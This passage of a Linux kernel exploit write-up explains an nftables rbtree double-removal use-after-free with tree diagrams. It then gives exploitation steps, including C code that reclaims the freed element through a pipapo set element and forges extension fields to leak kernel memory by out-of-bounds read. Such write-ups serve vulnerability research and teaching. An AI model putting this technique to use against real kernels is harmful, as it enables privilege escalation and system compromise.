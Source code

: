 
-  - The `element E` created in msg[1] will be removed and freed. After that, the rbtree will look like this:
```
            B(key=0x80)
           /             
          /          
         A(key=0x90)    
``` 
-  - The `element D` created in msg[0] will be removed by function `nft_rbtree_remove` and will be freed by function `nft_set_elem_destroy` again! After we call `rb_erase` for `element D` when handling msg[0x3c2], the node struct of `element D` still looks like:
```
            B(key=0x80)
                      \       
                       \ 
                       D(key=0x70)
                                 \
                                  \
                               E(key=0x60)
```  
- - So the second time `rb_erase` is called on `element D`, it will replace `element E` to the right child node of `element D`'s parent node again! This means that we reinserted the `element E` that was about to be freed into the rbtree! After this, we get a UAF on `element E`! After that, the rbtree will look like this:
```
            B(key=0x80)
           /          \       
          /            \ 
         A(key=0x90)    E(key=0x60)      
```
  

After that, we can complete the exploit through the different sizes of the setelement of different sets. Here are the complete steps:

- 1. Construct an rbtree that meets the requirements
- 2. The vulnerability is triggered by the method mentioned above, and finally a released `element E` will be inserted into rbtree.
- 3. Create an `element F` of a pipapo set to get the heap of the `element E` back. Because the `nft_set_ext` offset in `nft_rbtree_elem` and `nft_pipapo_elem` is different, we can fake the `ext` in `nft_rbtree_elem` by filling some fields of `ext` in `nft_pipapo_elem` (just like some type confusion exploits).
  ```c
  struct nft_pipapo_elem {
	struct nft_set_ext ext;
  };

  struct nft_rbtree_elem {
	struct rb_node		node;
	struct nft_set_ext	ext;
  };

  ```
  The key point is to forge NFT_SET_EXT_USERDATA and udata_size, which represents the length of udata, because we need to leak information through out-of-bounds reading of udata.
  ```c
    //step 3
    //Now we have a free setelem in rbtree_set
    //We pad some parts of the set element, which is some fake part of set element of rbtree_set
    *(uint64_t *)&key[12] = 0x3000000000006000;//NFT_SET_EXT_KEY=0x60, NFT_SET_EXT_USERDATA=0x30
    *(uint64_t *)&key[20] = 0;
    *&key[60] = 0xff;//fake udata_size
    *(uint64_t *)&pad[7] = 0x70; //fake key
    new_setelem_with_expr(socket, table, pipapo_set, pad, 0x70, obj_for_exp, key, 0x40, NULL, 0);
  ```
